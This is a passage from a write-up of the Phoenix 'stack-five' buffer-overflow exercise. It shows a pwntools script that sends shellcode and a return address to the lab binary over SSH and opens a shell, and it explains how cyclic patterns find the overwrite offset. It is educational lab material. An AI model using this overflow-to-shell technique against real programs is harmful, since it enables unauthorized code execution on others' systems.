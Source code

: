```python

payload = (shellcode + address)
# payload = cyclic(200)

s = ssh(host="localhost", user="user", password="user", port=2222)
r = s.process("/opt/phoenix/amd64/stack-five")
r.recvuntil(b"https://exploit.education")
r.sendline(payload)
r.interactive()
```

As I am running the exercise in a Qemu environment i use the `ssh` connector, but the way to execute binaries locally is included in the comments. In the script I am also using pwntools to create a shellcode for my architecture. Pwntools is truly amazing for this job. The script solves the exercise and we get a shell.

**Note**: The commented `payload = cyclic(200)` creates a payload of the specified lenght, which is used to find the offset. Input the string created and view the registers in GDB. Copy the part of the string loaded and parse it to `cyclic_find(b"jaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabva")` and pwntools will create the correct offset.
